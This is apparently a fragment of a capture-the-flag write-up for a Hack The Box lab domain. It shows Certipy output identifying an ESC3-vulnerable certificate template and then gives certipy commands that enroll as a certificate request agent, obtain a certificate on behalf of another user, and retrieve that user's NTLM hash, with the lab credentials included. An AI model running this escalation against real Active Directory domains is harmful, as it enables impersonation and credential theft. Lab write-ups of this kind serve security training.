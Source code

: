 ```
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Certificate Request Agent
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-05T19:52:09+00:00
    Template Last Modified              : 2024-11-05T19:52:10+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFICATE.HTB\Domain CRA Managers
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFICATE.HTB\Administrator
        Full Control Principals         : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFICATE.HTB\Domain CRA Managers
    [!] Vulnerabilities
      ESC3                              : Template has Certificate Request Agent EKU set.

```


Exploitation:

```steps
certipy req \
    -u 'lion.sk' -p '!QAZ2wsx' \
    -dc-ip '10.10.11.71' -target 'DC01.certificate.htb' \
    -ca 'CERTIFICATE-DC01-CA' -template 'Delegated-CRA' -ns 10.10.11.71 


certipy req \                                                                                                                                                                                  
    -u 'lion.sk' -p '!QAZ2wsx' \
    -dc-ip '10.10.11.71' -target 'DC01.certificate.htb' \
    -ca 'Certificate-LTD-CA' -template 'SignedUser' \
    -pfx 'lion.sk.pfx' -on-behalf-of 'ryan.k' -ns 10.10.11.71 

certipy auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6

```
